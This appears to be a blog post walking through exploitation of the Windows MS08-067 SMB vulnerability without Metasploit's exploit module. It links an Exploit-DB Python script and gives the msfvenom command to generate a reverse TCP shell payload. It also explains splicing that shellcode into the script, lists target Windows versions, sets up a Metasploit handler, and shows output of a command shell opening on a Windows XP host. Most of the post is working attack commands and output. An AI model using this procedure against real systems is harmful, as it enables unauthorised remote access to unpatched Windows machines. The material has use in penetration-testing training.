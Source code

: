 ```yaml
---
title:  "MS08-067 - DIY Script"
date:   2021-08-05 21:15:00 +0100
categories: [techniques]
tags: [windows, scripts, ms08-067]
comments: true
---
```


MS08-067 - Without Mimikatz Script
==================================

Exploiting MS08-067 without using metasploit.   

This has been quite tricky to get working, but in summary from my experience, you cant use 'nc' as a listener for this because the payload needs to be STAGED and 'nc' will only catch STAGELESS payloads.


First download the Python Script from here - [MS08_067](https://www.exploit-db.com/raw/40279 'MS08-067')

Next run msfvenom with the arguments to suit your needs:

`msfvenom -p windows/shell/reverse_tcp LHOST=x.x.x.x LPORT=8080  EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f python -v shellcode --arch x86 --platform windows`

Next, replace the shell code in the python script with the shell code you have just created with msfvenom.

Note - LEAVE THE FIRST THREE LINES (NOPS) IN THE PYTHON SCRIPT.
Lines, 47, 48, 49


`shellcode="\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"`
`shellcode="\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"`
`shellcode+="\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"`   
`---ENTER SHELLCODE HERE ---`

Next make a note of the Operating System & Service Pack that your are trying to execute. 
There are 7 options to choose from:

1.   Windows XP SP0/1 Universal   
2.   Windows 2000 Universal   
3.   Windows 2003 SP0 Universal   
4.   Windows 2003 SP1 English   
5.   Windows XP SP3 French (NX)   
6.   Windows XP SP3 English (NX)   
7.   Windows XP SP3 English (AlwaysOn NX)   

Next -  Start Metasploit and setup a handler 
    use exploit/multi/handler   
    set LHOST X.X.X.X   
    set LPORT XXXX   
    set payload windows/shell/reverse_tcp   
    exploit -j   

Next execute the python script using the correct number that relates to the OS and Service Pack liek so.


    python 40279.py 1

You should see the reverse shell returned.

    msf exploit(multi/handler) > exploit 

    [*] Started reverse TCP handler on X.X.X.X:8080 
    [*] Encoded stage with x86/shikata_ga_nai
    [*] Sending encoded stage (267 bytes) to A.A.A.A
    [*] Command shell session 10 opened (X.X.X.X:8080 -> A.A.A.A:1219) at 2017-02-00 15:55:22 +0000

    Microsoft Windows XP [Version 5.1.2600]
    (C) Copyright 1985-2001 Microsoft Corp.

    C:\WINDOWS\system32>


![img-description](/images/ms08-067.png)
_For Reference this is what the traffic looks like for a successful reverse TCP connection for this particular exploit._



